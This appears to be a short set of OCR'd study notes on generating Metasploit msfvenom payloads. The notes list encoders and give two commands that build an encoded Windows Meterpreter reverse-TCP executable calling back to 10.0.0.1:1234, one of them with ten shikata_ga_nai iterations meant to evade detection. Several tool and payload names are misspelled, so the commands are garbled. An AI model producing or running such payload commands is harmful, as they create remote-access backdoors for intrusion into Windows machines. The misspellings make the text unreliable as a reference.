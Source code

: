 

- msfcenom --list encoders
- shikata ga nai , is best encoder
- msfvenome -p windows/meterpter/reverse__tcp LHOST=10.0.0.1 LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_payloads/encoded86.exe
- we can increase more iterations of encoding with exaple 10 iterations is -i 10 
- msfvenome -p windows/meterpter/reverse__tcp LHOST=10.0.0.1 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_payloads/encoded86.exe
- 